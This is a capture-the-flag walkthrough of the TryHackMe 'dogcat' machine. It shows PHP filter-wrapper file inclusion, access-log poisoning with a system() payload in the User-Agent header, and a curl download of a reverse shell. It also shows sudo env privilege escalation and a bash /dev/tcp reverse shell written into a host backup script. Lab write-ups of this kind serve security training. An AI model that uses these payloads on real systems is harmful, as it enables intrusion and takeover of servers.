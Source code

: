 ```yaml
---
date: 2020-05-17
layout: post
title: "dogcat"
subtitle:
description: Medium Machine from tryhackme
image: /writeup/assets/img/dogcat/dogcat.png
optimized_image:
category: Tryhackme
tags: tryhackme lfi
author:
paginate: false
---
```

<a href="https://tryhackme.com/room/dogcat">Link</a> to the machine on Tryhackme.

Starting with the nmap scan.
```bash
nmap -T4 -p- -A 10.10.110.141
```
```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-18 22:13 IST
Nmap scan report for 10.10.184.233
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Not much of ports are open.Main target now port 80.

Running gobuster
```bash
gobuster dir -u http://10.10.110.141 -w wordlist
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/server-status (Status: 403)
/dog.php (Status: 200)
/dogs (Status: 301)
````
Requesting flag.php gives a blank page.
Clicking on any of the two buttons provided on home page of the website a image is accessed using the following url
```url
http://10.10.110.141/?view=dog[or cat] 
```
Tried local file inclusion through the view parameter.
```url
http://10.10.110.141/?view=../../../../../../../../../../etc/passwd
```

This failed as the server is attaching a .php at the end of the string provided in view.Moreover it also checks for dog or cat word in the string.

Used PHP Wrappers to get the code in flag.php.
```url
http://10.10.110.141/?view=php://filter/convert.base64-encode|read=dog/resource=flag
```
Here the filter php wrapper is used as we can use it to chain multiple filters.
The wrapper above asks the server to get flag.php(.php is appended automatically) convert it to base64(beacuse if it will give the code directly then code will get executed and we will get same page as requesting flag.php).Read filter does nothing here except letting dog or cat word in the string.

Accessing the above url we get a base64 encoded string which on decryption gives the code of flag.php
![placeholder](/writeup/assets/img/dogcat/flag1.php "flag1")

Through the same method index.php can be read.This tells that appending of .php can be stopped by using a *ext* parameter in url.
```php
#index.php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

Now trying to get rce through log poisoning.
First we access any file on the server with User-Agent Header containing our malicious code.
This can be done via burpsuite or curl.
Using the following in user agent
```bash
**Payload="<?PHP echo system($_GET['y'])?>"**
```
![placeholder](/writeup/assets/img/dogcat/burp.png "burp")

Now accessing the access.log file on the system which logs all the files being requested with the user-agent which is accessing.
So this way when access.log is fetched by the server,the php code feeded in through user-agent gets executed.

So now any code can be executed thorough the y parameter in url

```url
http://10.10.110.141/view=cats/../../../../../../../../../../var/log/apache2/access.log&ext=&y=[command] 
```

If **whoami** is passed in y then following response is recieved
![placeholder](/writeup/assets/img/dogcat/rce.png "rce")

Better shell can be acquired by uploading any php reverse shell thorugh the y parameter.

Since many commands like wget python are not present on the machine;curl can be used to upload the reverse shell.
```url
http://10.10.110.141/?view=dog/../../../../../../../../../../../../../var/log/apache2/access.log&ext=&y=curl%20http://10.9.12.192/phpshell.php%20-o%20shell.php
```
The shell used here is pentestmonkney reverse shell.

Now accessing the shell.php gives a reverse shell.
![placeholder](/writeup/assets/img/dogcat/shell.png "shell")

Second flag is present in /var/www.

**sudo -l** shows
![placeholder](/writeup/assets/img/dogcat/sudo.png "sudo")

Time for GTFObins.
Got the command from GTFObins that will give a root shell through env command.
**sudo env /bin/sh**

Got root shell and the third flag(Inside /root directory).

Running the hostname command gives a non-meaningfull string which tells that we may be still inside a container rather that the machine itself.

Enumerating through the machine , got a backup.sh file inside /opt/backup. This seems to be a script main host machine is using to create bacckup.So maybe it is runnning at some interval of time.
Edited the script to get a reverse shell.
Put a one liner reverse shell in the script
```bash
echo "#!/bin/bash" > backup.sh
echo "bash -c 'bash -i >& /dev/tcp/10.9.12.192/7777 0>&1'" >> backup.sh
```

This gave a shell on the host machine.
![placeholder](/writeup/assets/img/dogcat/host.png "host")
Found fourth flag(Inside /root/)

